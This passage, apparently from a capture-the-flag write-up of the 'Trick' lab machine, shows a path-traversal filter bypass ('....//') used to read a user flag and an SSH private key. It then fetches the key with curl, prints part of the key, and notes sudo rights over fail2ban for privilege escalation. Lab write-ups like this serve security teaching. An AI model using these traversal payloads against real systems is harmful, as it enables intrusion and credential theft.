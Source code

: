 We get the first user-level flag:

```bash
[http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/user.txt](http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/user.txt)
```

We check with the URL that an SSH key exists:

```bash
[http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa](http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa) 
```

Let's copy and use to log in via SSH:

```jsx
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa" > id_rsa_michael

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz

---HIDE---

jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

With an SSH session established we can investigate vulnerability points to escalate privilege or how get the root flag.

![Untitled](pics/Untitled%2010.png)

The command `sudo -l` show that we have permission to restart the service ***fail2ban*** with user sudo. This information may be used to privilege escalate.w

![Untitled](pics/Untitled%2011.png)
